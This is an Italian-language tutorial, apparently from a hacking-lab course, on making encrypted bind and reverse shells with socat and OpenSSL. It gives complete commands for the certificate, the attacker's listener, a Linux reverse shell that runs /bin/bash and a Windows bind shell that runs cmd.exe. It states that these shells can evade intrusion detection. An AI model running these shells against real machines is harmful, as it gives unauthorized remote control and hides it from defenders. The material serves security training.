 Una delle tante cose fantastiche di **socat** è che è in grado di **creare shell crittografate,** sia **bind** che **reverse**. Perché dovremmo volerlo fare? Le shell crittografate non possono essere spiate a meno che non si abbia la chiave di decrittazione e spesso sono **in grado di bypassare un IDS.**

Basti dire che ogni volta che **`TCP`** è stato usato come parte di un comando, verrà **sostituito** con **`OPENSSL`quando** si **lavora** con **shell crittografate.** 

### Certificati

Per prima cosa dobbiamo **generare** un **certificato** per poter usare shell criptate. È più facile farlo sulla nostra macchina attaccante:

- **`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`**

Questo **comando crea** una **chiave RSA a 2048 bit** con **file** di **certificato corrispondente**, **autofirmata** e **valida** per poco meno di un **anno**. Quando esegui questo comando, ti verrà chiesto di **inserire informazioni** sul **certificato**. **Questo campo** può essere **lasciato vuoto** o **compilato in modo casuale.**

**Dobbiamo quindi unire i due file creati in un unico `.pem`file:**

- **`cat shell.key shell.crt > shell.pem`**

Ora, impostiamo il nostro **listener shell inverso**, utilizziamo:

- **`socat OPENSSL-LISTEN <PORT>,cert=shell.pem,verify=0 -`**

Questo **imposta** un **listener OPENSSL** che **usa** il nostro **certificato generato**. **`verify=0`Indica** alla connessione di **non** preoccuparsi di **provare** a **convalidare** che il nostro **certificato** sia stato firmato correttamente da un'autorità riconosciuta. Si noti che il certificato *deve* essere usato su qualsiasi dispositivo in ascolto.

**Per riconnetterci, useremmo:**

- **`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`**

### **La stessa tecnica si applicherebbe per una shell bind:**

Bersaglio:

- **`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`**

Attaccante:

- **`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`**

Tieni presente che anche per una destinazione Windows, il **certificato** deve essere **utilizzato con** il **listener**, **quindi è necessario copiare il file PEM per una shell di associazione.**

**L'immagine** seguente mostra una **shell OPENSSL Reverse** da un target Linux . Come al solito, il target è sulla destra e l'attaccante è sulla sinistra:

![image](https://github.com/user-attachments/assets/daf94691-6070-4d22-8eef-32ad1afb28e7)

Questa tecnica funzionerà anche con la speciale shell TTY solo per Linux trattata nel compito precedente: capire la sintassi per questo sarà la sfida per questo compito.
